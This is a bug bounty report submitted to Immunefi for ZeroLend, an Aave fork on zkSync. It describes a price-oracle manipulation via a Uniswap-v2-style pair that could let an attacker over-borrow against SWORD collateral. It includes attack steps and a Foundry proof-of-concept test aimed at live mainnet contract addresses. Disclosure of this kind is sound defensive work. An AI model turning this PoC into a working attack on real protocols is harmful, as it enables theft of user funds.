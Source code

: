 # 29344 - \[SC - Insight] Price assets deposited manipulation

Submitted on Mar 14th 2024 at 13:49:09 UTC by @Lastc0de for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29344

Report type: Smart Contract

Report severity: Insight

Target: https://explorer.zksync.io/address/0x785765De3E9ac3D8eEb42B4724A7FEA8990142B8

Impacts:

* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description

## Brief/Intro

NOTE: This vulnerability was discovered in the last hour and forgive me if there is a problem typing words as I was typing and reporting quickly before the time expired

##

Zero Land is a fork of AAVE, so its calculations are exactly similar to AAVE calculations.

Based on this: when the user wants to borrow, he/she must first make a deposit, then based on the price that the user has deposited, the user can borrow other assets.

The value of assets that the user has deposited is taken from `AaveOracle.sol` and `AaveOracle` returns the value based on the feed specified by the owner of the protocol, but in your protocol the value can be manipulated and it can be said that all the funds in your protocol can be stolen by this method.

In your protocol, to calculate the number of assets active in your protocol, different `Pairs` pools are used to calculate the value of those assets

For this reason, your protocol is vulnerable to `price manipulation`, because price manipulation is very common and simple in `Pairs`(Ex: Uniswap), and since in your protocol, the most important tasks, such as charging, are calculated based on the value of an asset, this can cause the theft of funds. be you

## Vulnerability Details

For Ex: One of assets in your protocol is `SWORD`:

https://explorer.zksync.io/address/0xDB87A5493e308Ee0DEb24C822a559bee52460AFC

`AaveOracle.sol` wants to get the price of this, it uses the following feed:

https://explorer.zksync.io/address/0x65B28bAfDB15DD3Cb47a568FBa27fABb5b7d99d4#contract

This contract uses `_getPrice()` function to get the price:

```
    function _getPrice() internal view returns (int256) {
        IAggregatorV3Interface pyth = IAggregatorV3Interface(ethAggregrator);

        int256 tokenPrice = int256(pool.getAmountOut(1e18, sword));
        int256 ethOraclePrice = pyth.latestAnswer() * 1e10;

        return (tokenPrice * int256(ethOraclePrice)) / 1e28;
    }
```

This function returns `tokenPrice` by calling the `getAmountOut()` function in the eZKalibur `pool` address

* eZKalibur is fork from Uniswap v2.

Here the vulnerability appears in the your Oracle, it is easy to manipulate the return value of the `_getPrice()` function by minting and burning the LP token in pair, as a result, considering that your feed uses a pair and uses the return value as the assets value A attacker can easily `manipulate` the return value of `_getPrice()` and increase the amount of assets and borrow more assets and steal the funds in your protocol.

## Impact Details

Attacker, can first depasite a vulnerable token then increase its price using its pair thereby borrowing a token more than the value of something it has already deposited

## References

## Proof of Concept

NOTE : PoC only theoretically wrote that due to lack of time, vulnerability was discovered in the final hours.

1-Attacker Deposit SWORD in your protocol

2-Attacker increases the value of his asset by manipulating its Pair

3-Attacker, can borrow but more than the value of his property

4-Attacker,return back assets in Pair by burn LP Tokens

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {Counter} from "../src/Counter.sol";

interface IPair {
    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);
}
interface IAaveOracle {
    function getAssetPrice(address asset) external view returns (uint256);
}
contract CounterTest is Test {
    address Pair = 0xc8b6B3A4D2d8428EF3a940EAc1E32A7DdAdCB0f1;
    address WETH = 0x5AEa5775959fBC2557Cc8789bC1bf90A239D9a91;
    address SWORD = 0x240f765Af2273B0CAb6cAff2880D6d8F8B285fa4;
    address AaveOracle = 0x785765De3E9ac3D8eEb42B4724A7FEA8990142B8;


    function setUp() public {
        vm.createSelectFork("https://zksync.meowrpc.com");
        deal(SWORD,address(this), 0); //Flash loan or swap
        deal(SWORD,address(this), 0); //Flash loan or swap
        deal(WETH, address(this), 0); 
    }

    function test_Manipulation() public {
        console2.log("Asset Price Before Exploit: %e",IAaveOracle(AaveOracle).getAssetPrice(SWORD) );
        IERC20(WETH).transfer(Pair, 0); // Enter amount
        IERC20(SWORD).transfer(Pair, 0); // Enter Amount
        IPair(Pair).mint(address(this));
        console2.log("Asset Price After Exploit: %e",IAaveOracle(AaveOracle).getAssetPrice(SWORD) );

    }
}
```
